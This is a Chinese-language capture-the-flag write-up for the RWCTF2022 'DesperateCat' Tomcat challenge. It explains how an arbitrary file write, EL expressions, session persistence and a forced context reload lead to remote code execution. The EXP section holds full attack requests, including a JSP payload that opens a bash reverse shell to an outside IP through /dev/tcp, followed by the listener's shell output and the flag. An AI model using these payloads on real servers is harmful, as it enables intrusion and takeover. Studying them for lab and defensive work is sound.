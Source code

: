 # RWCTF2022-DesperateCat-Writeup



## 题目环境概述

环境是JDK8u311和tomcat9.0.56，需要rce，Servlet是一个任意写：

```java
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String dir = ParamUtil.getParameter(req, "dir");
        String fileName = ParamUtil.getParameter(req, "filename");
        String content = ParamUtil.getParameter(req, "content");
        if (StringUtil.isEmpty(content)) {
            this.outputMsg(resp, "Empty content");
        } else {
            if (!StringUtil.isEmpty(fileName) && fileName.indexOf(46) >= 0) {
                String fileExt = fileName.substring(fileName.lastIndexOf(46) + 1);
                fileName = StringUtil.randomStr() + "." + fileExt;
            } else {
                fileName = StringUtil.randomStr();
            }

            File saveFile;
            if (StringUtil.isEmpty(dir)) {
                saveFile = new File(this.exportDir, fileName);
            } else {
                saveFile = new File(this.getServletContext().getRealPath("/"), dir + File.separator + fileName);
            }

            String data = "DIRTY DATA AT THE BEGINNING " + content + " DIRTY DATA AT THE END";
            this.writeBytesToFile(saveFile, data.getBytes(StandardCharsets.UTF_8));
            this.outputMsg(resp, saveFile.getAbsolutePath());
        }
    }
```



但是将会有如下的替换：

```java
    private static final String[] SPECIAL_CHARS = new String[]{"&", "<", "'", ">", "\"", "(", ")"};
    private static final String[] REPLACE_CHARS = new String[]{"&amp;", "&lt;", "&#39;", "&gt;", "&quot;", "&#40;", "&#41;"};
```



## 官方解法

对于tomcat环境很容易想到jsp和EL表达式，对于EL表达式中的POC：

```java
${Runtime.getRuntime().exec(param.cmd)}
```

可以绕过`<%%>`，但是存在了括号，仍然不行。

接下来就是一堆nb trick的学习了。

首先是tomcat的session持久化：

> 对于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载 时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为 Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实 现可序列化接口（java.io.Serializable）的原因了。
>
>   当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些 HttpSession对象从内存中转移到文件系统或数据库中，在需要访问 HttpSession信息时再把它们加载到内存中。

> 默认配置下，Tomcat 在关闭服务的时候，会将用户 Session 中的数据以序列化的形式持久存储到本地，这样下次 Tomcat 再启动的时候，能够从本地存储的 Session 文件中恢复先前的 Session 数据内容，避免造成用户 Session 还未到期就由于服务重启而失效。



默认存放在`work 应用目录下的 SESSIONS.ser`。

通过EL表达式可以修改这个存储文件的位置：

```java
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

然后通过EL表达式往session里面写东西：

```java
${sessionScope[param.b]=param.c}
```

这样如果tomcat停止服务后，就会往可控的文件中写入我们可控的内容。



但是肯定没法控制tomcat停止服务。。。官方文档中说程序触发`reload`也可以。



程序`reload`满足的条件：

1. Context reloadable 配置为 true（默认是 false）；
2. /WEB-INF/classes/ 或者 /WEB-INF/lib/ 目录下的文件发生变化。



第一点用EL修改：

```java
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
```



第二点具体是这样：

- /WEB-INF/classes/ 下已加载过的 class 文件内容发生了修改；
- /WEB-INF/lib/ 下已加载过的 jar 文件内容发生了修改，或者写入了新的 jar 文件。

往`/WEB-INF/lib/`下面写个jar文件即可触发reload。

但是因为随便写入的jar包肯定不是正规的jar包，导致程序reload失败，直接挂了。

但是可以通过修改`appBase`目录，这个也就是我们默认的`webapps`。

如果把它修改成`/`，这样就可以访问整个文件系统，也就不局限于之前的那个文件夹了，可以往`/tmp`下面写了。

### EXP

先写入EL表达式：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export

filename=1.jsp&content=
%24%7BpageContext.servletContext.classLoader.resources.context.manager.pathname%3Dparam.a%7D%0A%24%7BsessionScope%5Bparam.b%5D%3Dparam.c%7D%0A%24%7BpageContext.servletContext.classLoader.resources.context.reloadable%3Dtrue%7D%0A%24%7BpageContext.servletContext.classLoader.resources.context.parent.appBase%3Dparam.d%7D
```

然后触发，使得reload之后能往`/tmp/session.jsp`里面写反弹shell：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export/b00dd97fd5f740bfbb73dce9ae58078e.jsp

a=/tmp/session.jsp&b=feng&c=%3C%25Runtime.getRuntime().exec(new%20String%5B%5D%7B%22%2Fbin%2Fbash%22%2C%20%22-c%22%2C%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F121.5.169.223%2F39876%200%3E%261%22%7D)%3B%25%3E&d=/
```

最后往`./WEB-INF/lib`下面写个jar文件：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export

dir=./WEB-INF/lib/&filename=1.jar&content=1
```

再访问`http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/tmp/session.jsp`即可触发反弹shell：

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39876
Listening on [0.0.0.0] (family 0, port 39876)
Connection from 117.21.200.166 45861 received!
sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
sys
tmp
usr
var
$ /readflag
flag{121a8166-c375-40f3-802a-1bdef43f18d2}

```



## 非预期

直接往`./WEB-INF/lib/`下面写一个ascii范围在0-127的jar包，把jsp马放到jar包的`META-INF/resources/`下面，reload之后即可访问。

这种reload借助的是`Tomcat Context WatchedResource`。

在 Tomcat 9 环境下，默认的 WatchedResource 包括：

- WEB-INF/web.xml
- WEB-INF/tomcat-web.xml
- ${CATALINA_HOME}/conf/web.xml

> Tomcat 会有后台线程去监控这些文件资源，在 Tomcat 开启 autoDeploy 的情况下（此值默认为 true，即默认开启 autoDeploy），一旦发现这些文件资源的 lastModified 时间被修改，也会触发 reload

这样也可以reload。

具体可以参考回忆飘如雪师傅的文章：

https://mp.weixin.qq.com/s/V5UzhjWKgB7_cAJWer8mZg

不过jar构造那里我确实没看太懂。。。。





## 总结

全是没见过的思路，学习了。。。以后有空一定把jar包构造那部分好好学学。











